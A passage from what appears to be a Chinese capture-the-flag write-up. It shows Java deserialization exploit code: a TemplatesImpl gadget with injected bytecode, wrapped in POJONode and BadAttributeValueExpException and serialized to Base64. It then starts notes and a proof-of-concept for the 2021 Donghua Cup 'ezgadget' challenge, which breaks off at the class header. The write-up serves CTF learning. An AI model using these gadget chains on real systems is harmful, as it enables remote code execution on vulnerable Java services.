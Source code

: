 ```java  
    }    
    
    public static void main(String[] args) throws Exception{    
        byte[] code = getTemplates();    
        byte[][] codes = {code};    
        // TemplatesImpl    
        TemplatesImpl templates = new TemplatesImpl();    
        setFieldValue(templates, &#34;_name&#34;, &#34;useless&#34;);    
        setFieldValue(templates, &#34;_tfactory&#34;,  null);    
        setFieldValue(templates, &#34;_bytecodes&#34;, codes);    
    
        POJONode node = new POJONode(templates);    
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);    
        setFieldValue(val,&#34;val&#34;,node);    
        System.out.println(serialize(val));    
    }    
    
    public static void setFieldValue(Object object, String field, Object arg) throws NoSuchFieldException, IllegalAccessException {    
        Field f = object.getClass().getDeclaredField(field);    
        f.setAccessible(true);    
        f.set(object, arg);    
    }    
    
    public static String serialize(Object object) throws IOException {    
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();    
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);    
        objectOutputStream.writeObject(object);    
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411151602529.png)
# 2021东华杯-ezgadget  
## 0x01 解题记录  
`java -jar ezgadget.jar`  
存在反序列化入口  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411162157902.png)
存在条件  
`name.equals(&#34;gadgets&#34;) &amp;&amp; year == 2021`  
在`ToStringBean`类下存在`toString`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411162159484.png)
这里可以加载任意类，利用`BadAttributeValueExpException`类触发`toString`方法  
构造 exp  
```java  
import com.ezgame.ctf.tools.ToStringBean;    
    
import javax.management.BadAttributeValueExpException;    
import java.io.ByteArrayOutputStream;    
import java.io.IOException;    
import java.io.ObjectOutputStream;    
import java.lang.reflect.Field;    
import java.nio.file.Files;    
import java.nio.file.Paths;    
import java.util.Base64;    
    
public class Poc {    
    public static void main(String[] args) throws Exception{    
```